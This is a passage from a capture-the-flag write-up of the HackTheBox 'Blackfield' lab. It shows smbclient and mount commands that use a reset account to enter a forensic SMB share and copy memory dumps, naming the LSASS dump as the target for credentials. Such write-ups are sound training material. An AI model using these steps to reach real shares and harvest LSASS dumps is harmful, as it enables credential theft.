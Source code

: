 Password reset worked! As user `audit2020` we now have access to READ `forensic` share.

```shell
cfx:  ~/Documents/htb/blackfield
→ smbclient //10.10.10.192/forensic -U audit2020
Enter WORKGROUP\audit2020's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 18:33:16 2020
  ..                                  D        0  Sun Feb 23 18:33:16 2020
  commands_output                     D        0  Sun Feb 23 23:44:37 2020
  memory_analysis                     D        0  Fri May 29 01:58:33 2020
  tools                               D        0  Sun Feb 23 19:09:08 2020

                7846143 blocks of size 4096. 3952268 blocks available
```
- Within `commands_output` directory we see output of various command such as netstat, tasklist, systeminfo.
- Inside `tools` directorys we see various tools possibly used to conduct audit and forensic analysis.
- Inside `memory_analysis` we have multiple memory dumps, the most interesting file stands out is `lsass.zip` which is supposed to be the memory capture of LSASS process.

```shell
\memory_analysis
  .                                   D        0  Fri May 29 01:58:33 2020
  ..                                  D        0  Fri May 29 01:58:33 2020
  conhost.zip                         A 37876530  Fri May 29 01:55:36 2020
  ctfmon.zip                          A 24962333  Fri May 29 01:55:45 2020
  dfsrs.zip                           A 23993305  Fri May 29 01:55:54 2020
  dllhost.zip                         A 18366396  Fri May 29 01:56:04 2020
  ismserv.zip                         A  8810157  Fri May 29 01:56:13 2020
  lsass.zip                           A 41936098  Fri May 29 01:55:08 2020
  mmc.zip                             A 64288607  Fri May 29 01:55:25 2020
  RuntimeBroker.zip                   A 13332174  Fri May 29 01:56:24 2020
  ServerManager.zip                   A 131983313  Fri May 29 01:56:49 2020
  sihost.zip                          A 33141744  Fri May 29 01:57:00 2020
  smartscreen.zip                     A 33756344  Fri May 29 01:57:11 2020
  svchost.zip                         A 14408833  Fri May 29 01:57:19 2020
  taskhostw.zip                       A 34631412  Fri May 29 01:57:30 2020
  winlogon.zip                        A 14255089  Fri May 29 01:57:38 2020
  wlms.zip                            A  4067425  Fri May 29 01:57:44 2020
  WmiPrvSE.zip                        A 18303252  Fri May 29 01:57:53 2020
```
I'll first mount the share to my machine and copy the `lsass.zip` to my folder. Alternatively `mget lsass.zip` could also be used to download the file:

```shell
cfx:  ~/Documents/htb/blackfield
→ mkdir /mnt/forensic; mount -t cifs //10.10.10.192/forensic /mnt/forensic -o user=audit2020
🔐 Password for audit2020@//10.10.10.192/forensic:  *******

cfx:  /mnt/forensic
→ cp -r memory_analysis/ ~/Documents/htb/blackfield/smb/

cfx:  ~/Documents/htb/blackfield/smb/memory_analysis
→ ls
conhost.zip  dfsrs.zip    ismserv.zip  mmc.zip            ServerManager.zip  smartscreen.zip  taskhostw.zip  wlms.zip
ctfmon.zip   dllhost.zip  lsass.zip    RuntimeBroker.zip  sihost.zip         svchost.zip      winlogon.zip   WmiPrvSE.zip
```
